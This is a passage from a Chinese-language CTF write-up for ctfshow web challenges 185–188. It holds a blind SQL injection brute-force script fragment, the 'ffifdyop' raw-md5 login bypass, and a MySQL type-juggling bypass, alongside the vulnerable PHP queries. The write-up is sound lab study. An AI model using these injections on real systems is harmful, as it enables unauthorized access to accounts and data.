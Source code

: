 ```python
  print(i)
  for j in s:
    d = convert(f'^ctfshow{flag+j}')
    data={
    'tableName':f' ctfshow_user group by pass having pass regexp({d})'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print(flag)
      if j=='}':
        exit(0)
      break
```

## web 186

过滤了<>大于小于号，没有影响，上一题脚本还能跑

## web 187

```php
$password = md5($_POST['password'],true);
$sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
```
存在这样一个字符ffifdyop，在php的md5($pwd,true)函数的值是'or'6]!r,b ，可以利用md5值里的or绕过

直接登录admin  ffifdyop

f12打开开发工具，在网络界面可以看到api接口返回的json数据
{"code":0,"msg":"\u767b\u9646\u6210\u529f","count":0,"data":[{"flag":"ctfshow{fbe2b5d6-6f77-4396-a89d-f1ed168700ee}"}]}

## web 188

username=0,pwd=0登录。f12查看网络接口返响应回json数据

在查询语句里，username和传进来的username比较。在mysql里，字符和数字比较时，会把字符转化为0再和数字比较。得到一个0=0的判断，查出所有数据

```sql
$sql = "select pass from ctfshow_user where username = {$username}";
```

在密码验证这里

```php
//密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```
正确密码和整数密码比较，如果正确密码是字符串，那么要和intval($password)比较时也会作为0，那么intval($password)=0时可以绕过验证，所以密码也传0
